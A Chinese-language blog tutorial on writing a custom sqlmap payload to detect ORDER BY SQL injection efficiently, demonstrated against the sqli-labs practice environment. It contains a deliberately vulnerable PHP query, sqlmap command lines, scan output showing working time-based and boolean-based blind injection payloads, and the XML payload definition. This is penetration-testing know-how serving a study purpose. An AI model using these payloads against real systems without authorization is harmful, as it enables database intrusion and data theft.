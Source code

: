 ```yaml
---
title: sqlmap使用之自定义payload
date: 2017-03-31 10:36:24
categories: Web安全
tags:
    - sqlmap
---
```


## 为什么要自定义payload

sqlmap根据用户提供的`level`和`risk`参数决定发送SQL注入测试的payload的种类和数量。通常情况，sqlmap使用默认参数扫描时会存在很多注入扫描不出来的问题，这是因为默认情况下一些注入类型(如`order by`)是不会去扫描的，虽然用户可以通过提高level参数和risk参数，让sqlmap做更加全面的扫描，但是这种方式会发送大量的请求，影响扫描效率，而且risk参数过高还会带来损害数据库的风险，因此可以通过添加自定义的payload或者修改sqlmap提供的payload，优化扫描策略。

自定义payload可以带来以下好处:

* 提供针对性的扫描，同时保持sqlmap扫描的高效性(发送的请求少)
* 针对已知的注入类型，做绕过测试，例如: 结合各种tamper脚本等

<!-- more -->

## 添加自定义payload

关于sqlmap生成payload的方式可以参见 {% post_link sqlmap源码解析之test和boundary组合生成payload sqlmap源码解析之test和boundary组合生成payload %}。

使用 sqli-lab 实验环境，选取lesson 53做测试，核心代码为:

```php
$id=$_GET['sort'];
if(isset($id)){
    $sql="SELECT * FROM users ORDER BY '$id'";
}
```

显然, 这是order by类型的注入，而且还是字符型注入。另外看具体代码知道，这题为盲注类型。首先使用sqlmap做默认扫描


```
sqlmap -u "http://sqli.loc/Less-52/?sort=1" -p sort -v 2

[14:21:19] [DEBUG] skipping test 'MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (ELT)' because the level (4) is higher than the provided (1)

sqlmap identified the following injection point(s) with a total of 93 HTTP(s) requests:
---
Parameter: sort (GET)
    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: sort=1' AND SLEEP(5) AND 'MAwe'='MAwe
    Vector: AND [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])
---
```

从上面的结果可以看出: 1. 默认`level=1`的情况下，sqlmap会忽略`ORDER BY`类型的测试。 2: sqlmap只发了93个请求，识别出了注入点，但是从title可以看出使用的payload并不是`ORDER BY`类型, 而且还是时间盲注,并不方便后续的数据获取。

提高`level`参数为4，再次测试

```
sqlmap -u "http://sqli.loc/Less-53/?sort=1" -p sort -v 2 --level 4

sqlmap identified the following injection point(s) with a total of 417 HTTP(s) requests:
---
Parameter: sort (GET)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: sort=1' RLIKE (SELECT (CASE WHEN (1428=1428) THEN 1 ELSE 0x28 END))-- dtiw
    Vector: RLIKE (SELECT (CASE WHEN ([INFERENCE]) THEN [ORIGVALUE] ELSE 0x28 END))
---
```

sqlmap总共发送了417次请求, 但识别注入点的payload为包含`ORDER BY`类型的payload. 那么我们可以自定义添加payload或者修改该payload的level值为1，这样批量扫描注入点为这种类型的站点，节约扫描时间。

### 自定义payload

在 `xml/payloads/boolean_blind.xml`文件后添加test节点如下:

```xml
<test>
    <title>AND boolean-based blind - WHERE or HAVING or ORDER BY OR GROUP BY clause</title>
    <stype>1</stype>
    <level>1</level>
    <risk>1</risk>
    <clause>1,2,3</clause>
    <where>1</where>
    <vector>AND if([INFERENCE],[RANDNUM],(SELECT [RANDNUM] FROM INFORMATION_SCHEMA.PLUGINS))</vector>
    <request>
        <payload>AND if([RANDNUM]=[RANDNUM],[RANDNUM],(SELECT [RANDNUM] FROM INFORMATION_SCHEMA.PLUGINS))</payload>
    </request>
    <response>
        <comparison>AND if([RANDNUM]=[RANDNUM1],[RANDNUM],(SELECT [RANDNUM] FROM INFORMATION_SCHEMA.PLUGINS))</comparison>
    </response>
</test>
```

识别结果如下，共292次请求，添加的payload成功识别。

```
python sqlmap.py -u http://sqli.loc/Less-53/?sort=1 -v 2

sqlmap identified the following injection point(s) with a total of 292 HTTP(s) requests:
---
Parameter: sort (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING or ORDER BY OR GROUP BY clause
    Payload: sort=1' AND if(9984=9984,9984,(SELECT 9984 FROM INFORMATION_SCHEMA.PLUGINS)) AND 'WKRv'='WKRv
    Vector: AND if([INFERENCE],[RANDNUM],(SELECT [RANDNUM] FROM INFORMATION_SCHEMA.PLUGINS))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: sort=1' AND SLEEP(5) AND 'rcfl'='rcfl
    Vector: AND [RANDNUM]=IF(([INFERENCE]),SLEEP([SLEEPTIME]),[RANDNUM])
---
```
